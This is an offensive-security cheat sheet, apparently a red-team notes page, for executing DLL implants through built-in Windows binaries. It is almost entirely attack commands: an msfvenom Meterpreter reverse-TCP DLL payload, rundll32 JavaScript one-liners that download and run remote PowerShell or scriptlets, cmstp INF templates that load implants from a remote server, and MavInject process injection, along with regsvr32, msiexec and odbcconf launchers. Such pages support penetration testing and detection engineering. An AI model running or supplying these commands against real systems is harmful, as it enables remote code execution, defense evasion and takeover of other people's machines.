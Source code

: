 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - living-off-the-land
  - T1085
  - T1191
  - windows
---
```

# DLL Execution

Generate a DLL implant.

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f dll -o implant.dll
```

## `rundll32.exe`

```
C:\> rundll32.exe implant.dll,StartW
```

Execute a JavaScript that runs a PowerShell script that is downloaded from a remote web site.

```
C:\> rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http[s]://<IP>[:PORT]/implant.ps1')");
```

Execute a JavaScript that runs calc.exe and then kills the Rundll32.exe process that was started.

```
C:\> rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WScript.Shell").Run("calc.exe", 0, true);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
```

Execute a scriptlet implant from a web server.

```
C:\> rundll32.exe javascript:"..\mshtml,RunHTMLApplication ";document.write();GetObject("script:http[s]://<IP>[:PORT]/implant.sct")"
```

## `regasm.exe`

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe
```

Loads the target .DLL file and executes the RegisterClass function.

```
C:\> regasm.exe AllTheThingsx64.dll
```

Loads the target .DLL file and executes the UnRegisterClass function.

```
C:\> regasm.exe /U AllTheThingsx64.dll
```

## `regsvcs.exe`

```
C:\> regsvcs.exe AllTheThingsx64.dll
```

## `regsvr32.exe`

Execute DLL implant.

```
C:\> regsvr32.exe /s implant.dll
```

## `msiexec.exe`

Execute the DLL implant  (calls `DLLRegisterServer`).

```
C:\> msiexec.exe /y "C:\path\to\implant.dll"
```

Unregisters the target DLL.

```
C:\> msiexec.exe /z "C:\path\to\implant.dll"
```

## `odbcconf.exe`

```
C:\> odbcconf.exe /a {regsvr.exe C:\path\to\implant.dll}
```

## `cmstp.exe`

Fileless scriptlet implant template

```
[version]
Signature=$chicago$
AdvancedINF=2.5

[DefaultInstall_SingleUser]
UnRegisterOCXs=UnRegisterOCXSection

[UnRegisterOCXSection]
%11%\scrobj.dll,NI,http[s]://<IP>[:PORT]/implant.sct

[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="Yay"
ShortSvcName="Yay"
```

DLL dropper implant template.

```
[version]
Signature=$chicago$
AdvancedINF=2.5

[DefaultInstall_SingleUser]
RegisterOCXs=RegisterOCXSection

[RegisterOCXSection]
C:\path\to\implant.dll
\\<IP>\implant.dll

[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="Pentestlab"
ShortSvcName="Pentestlab"
```

Execute implant.

```
C:\> cmstp.exe /ni /s implant.inf
```

Execute fileless implant.

```
C:\> cmstp.exe /ni /s http[s]://<IP>[:PORT]/implant.inf
```

## `control.exe`

```
C:\> control.exe .\reflective_implant_loader.dll
```

## `MavInject.exe`

Inject DLL implant in a process ID.

```
C:\> MavInject.exe <pid> /INJECTRUNNING C:\path\to\implant.dll
```

---
## References

### Backlinks

- [[DLL Injection]]

- [[DotNET Execution]]

- [[Scriptlet]]

- [[Advpack]]

### LOLBAS

- [LOLBAS: Rundll32](https://lolbas-project.github.io/lolbas/Binaries/Rundll32/)

- [LOLBAS: Regasm](https://lolbas-project.github.io/lolbas/Binaries/Regasm/)

- [LOLBAS: Regsvcs](https://lolbas-project.github.io/lolbas/Binaries/Regsvcs/)

- [LOLBAS: Msiexec](https://lolbas-project.github.io/lolbas/Binaries/Msiexec/)

- [LOLBAS: Odbcconf](https://lolbas-project.github.io/lolbas/Binaries/Odbcconf/)

- [LOLBAS: Control](https://lolbas-project.github.io/lolbas/Binaries/Control/)

- [LOLBAS: Mavinject](https://lolbas-project.github.io/lolbas/Binaries/Mavinject/)

- [LOLBAS: Setupapi](https://lolbas-project.github.io/lolbas/Libraries/Setupapi/)

- [LOLBAS: leadvpack](https://lolbas-project.github.io/lolbas/Libraries/Ieadvpack/)

- [LOLBAS: Certoc](https://lolbas-project.github.io/lolbas/Binaries/Certoc)

### Red Team Notes

- [Red Team Notes: Control Panel Item](https://www.ired.team/offensive-security/code-execution/t1196-control-panel-item-code-execution)

- [Red Team Notes: Forcing `iexplore.exe` to Load a Malicious DLL via COM Abuse](https://www.ired.team/offensive-security/code-execution/forcing-iexplore.exe-to-load-a-malicious-dll-via-com-abuse)